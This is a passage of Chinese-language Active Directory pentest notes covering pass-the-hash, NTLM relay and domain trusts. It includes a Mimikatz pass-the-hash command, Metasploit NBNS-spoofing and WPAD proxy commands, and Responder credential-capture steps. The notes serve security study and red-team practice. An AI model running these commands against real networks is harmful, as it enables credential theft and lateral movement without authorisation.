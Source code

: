 > PTH在讲NTLM认证的时候已经阐述过了，这里主要是传递的方式，这部分之前复现过了。和PTH紧密相关的是KB2871997这个补丁，但是sid为500的管理员账户仍可进行PTH，也可以使用AES-256密钥进行PTH攻击

> 20200921:刚打完h*，这回运用到了smb beacon和工作组下的pth。在cs下，工作组的pth填写时，domain值是任意的，不填也可以，之前一直认为要填写主机名或者workgroup，后来想了想在工作组环境下不是直接就行了（参考SMB爆破）。

#### impacket

#### Invoke-TheHash

#### Mimikatz

```mimikatz
privilege::debug
sekurlsa::pth /user:dc /domain:xxcom.local /ntlm:xxxx
```

~~msf和cs下，之后放上来~~

### NTLM-Relay

> 这个之前摸过了，感觉这种情况实际用的比较少，算是比较被动的方式~觉得主要围绕Responder这个工具展开，之前玩了一圈，好像没写文章发出来，这里就稍做记录吧...

#### 攻击手法1

Responder -b 强制开启401认证，触发场景就是用户访问一个网站，弹出小框框，在内网下捕获（总觉得挺明显的）

#### 攻击手法1.1

> 这个没看过，看了介绍就是因为都能控制PAC了，那直接让用户流量走我们的机器过...（PS 非域内）

~~这个还没手动做过，又mark一下~~

msf指令

```msf
use auxiliary/spoof/nbns/nbns_response
set regex WPAD
set spoofip attackip
run
use auxiliary/server/wpad
set proxy 172.16.127.155
run
```

#### 攻击手法2.0

> 这个挺有意思的，mark一下 -> responder关闭smb，开启ntlmrelayx.py，做ntlm-relay

### 域信任

> 这里搭建的时候是单域环境，没有做多域环境...又先埋一个小坑...

为了方便理解，直接从jumbo大佬的文章里把这个图搬运过来

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/domain_trust.png)

